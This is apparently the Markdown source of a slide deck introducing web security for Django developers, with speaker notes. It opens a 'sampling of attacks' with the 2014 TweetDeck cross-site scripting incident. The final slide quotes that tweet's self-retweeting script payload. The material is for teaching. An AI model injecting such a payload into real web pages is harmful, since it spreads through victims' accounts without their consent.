 Note:

- Common things people were looking for:
    - Basic websecurity practices
    - Learn how to secure a Django webapp
    - How Django does security out of the box
- Go around the room, introduce yourselves
- Any questions before we dive in?


---

# A Sampling of Attacks

---

# TweetDeck (XSS)

<img src="https://media.wired.com/photos/593315b068cb3b3dc4097c8f/master/w_1164,c_limit/TweetDeck-1.3-Screenshot.jpg">

Note:

- Custom view of Twitter

---

## Raw Tweet: 2014

<img src="http://i.guim.co.uk/static/w-700/h--/q-95/sys-images/Guardian/Pix/pictures/2014/6/12/1402572144093/a46e0094-c865-47ea-b987-26bb9f3afaa9-620x372.png">

Note:

- This was the raw tweet

---

## How it Rendered

<img src="http://i.guim.co.uk/static/w-700/h--/q-95/sys-images/Guardian/Pix/pictures/2014/6/12/1402572144093/a46e0094-c865-47ea-b987-26bb9f3afaa9-620x372.png">

Ob das wohl funktioniert: <strong>Test</strong> <img src="https://abs.twimg.com/emoji/v1/72x72/2665.png" style="border: none; top: 30px; position: relative;">

Note:
- And this was how Tweetdeck rendered it

---

## Soon

<blockquote class="twitter-tweet" lang="en"><p>&lt;script class=&quot;xss&quot;&gt;
$(&#39;.xss&#39;).parents().eq(1).find(&#39;a&#39;).eq(1).click();
$(&#39;[data-action=retweet]&#39;).click();
<br>alert(&#39;XSS in Tweetdeck&#39;)&lt;/script&gt;<img src="https://abs.twimg.com/emoji/v1/72x72/2665.png" style="border: none; top: 30px; position: relative;"></p>&mdash; *arrrrndy (@derGeruhn) <a href="https://twitter.com/derGeruhn/status/476764918763749376">June 11, 2014</a></blockquote>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>
